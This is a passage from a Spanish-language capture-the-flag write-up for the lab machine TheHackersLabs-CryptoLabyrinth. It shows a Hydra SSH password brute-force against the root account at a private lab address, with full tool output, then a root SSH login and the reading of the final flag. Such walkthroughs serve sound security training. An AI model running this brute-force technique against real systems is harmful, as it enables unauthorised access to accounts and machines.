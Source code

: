Y vamos a aplicarle fuerza bruta al **Root**, porque este wordlist no sirvió contra el **usuario alice**:
```bash
hydra -l 'root' -P wordlist2.txt ssh://192.168.10.140 -t 64
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-06-23 13:32:38
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 64 tasks per 1 server, overall 64 tasks, 3844 login tries (l:1/p:3844), ~61 tries per task
[DATA] attacking ssh://192.168.10.140:22/
[STATUS] 558.00 tries/min, 558 tries in 00:01h, 3328 to do in 00:06h, 22 active
[STATUS] 386.67 tries/min, 1160 tries in 00:03h, 2731 to do in 00:08h, 17 active
[STATUS] 311.00 tries/min, 2177 tries in 00:07h, 1716 to do in 00:06h, 15 active
[STATUS] 285.58 tries/min, 3427 tries in 00:12h, 466 to do in 00:02h, 15 active
[STATUS] 282.92 tries/min, 3678 tries in 00:13h, 215 to do in 00:01h, 15 active
[22][ssh] host: 192.168.10.140   login: root   password: ******
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 12 final worker threads did not complete until end.
[ERROR] 12 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-06-23 13:46:22
```
Funcionó, tenemos la contraseña del **Root**.

Autentiquémonos vía **SSH**:
```bash
ssh root@192.168.10.140
root@192.168.10.140's password: 
Linux TheHackersLabs-CryptoLabyrinth 6.1.0-26-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.112-1 (2024-09-30) x86_64
...
Last login: Tue Oct 22 19:09:39 2024
root@TheHackersLabs-CryptoLabyrinth:~# whoami
root
```

Obtengamos la última flag:
```bash
root@TheHackersLabs-CryptoLabyrinth:~# cat root.txt
...
```
Y con esto, terminamos la máquina.


<br>
<br>
<div style="position: relative;">
  <h2 id="Links" style="text-align:center;">Links de Investigación</h2>
</div>

